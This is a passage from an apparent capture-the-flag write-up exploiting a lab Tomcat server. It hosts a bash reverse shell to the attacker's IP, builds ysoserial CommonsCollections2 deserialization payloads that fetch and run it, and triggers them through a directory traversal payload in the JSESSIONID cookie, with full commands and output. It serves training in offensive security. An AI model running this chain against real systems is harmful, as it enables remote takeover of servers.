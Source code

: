 Creating our reverse shell payload and starting a `HTTP` server to serve it.

```console
$ cat index.html
/bin/bash -i >& /dev/tcp/10.11.72.22/443 0>&1

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Creating the serialized payload to download our reverse shell using `ysoserial`.

> You need to use `Java 11` for this.
{: .prompt-tip }

```console
$ ysoserial.jar CommonsCollections2 'curl 10.11.72.22 -o /tmp/rev.sh' > payload.session
```

After uploading our payload, we can see that it is located at `/usr/local/tomcat/temp/uploads/payload.session`.

![Web 8080 Reports Upload Payload](web_8080_reports_upload_payload.webp){: width="1200" height="300" }

Now, making a request with a directory traversal payload in the `JSESSIONID` cookie to point to the file we uploaded.

```console
$ curl -s 'http://10.10.137.26:8080/reports/' -H "Cookie: JSESSIONID=../../../../../../../../usr/local/tomcat/temp/uploads/payload"
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1></body></html>
```
{: .wrap }

Upon making the request, we can see that our payload is being downloaded.

```console
10.10.137.26 - - [16/Sep/2024 13:40:02] "GET / HTTP/1.1" 200 -
```

Now creating another payload, this time for executing the downloaded reverse shell payload.

```console
$ ysoserial.jar CommonsCollections2 'bash /tmp/rev.sh' > payload2.session
```

Uploading and calling it the same way as before.

```console
$ curl -s 'http://10.10.137.26:8080/reports/' -H "Cookie: JSESSIONID=../../../../../../../../usr/local/tomcat/temp/uploads/payload2"
<!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 500 – Internal Server Error</h1></body></html>
```
{: .wrap }
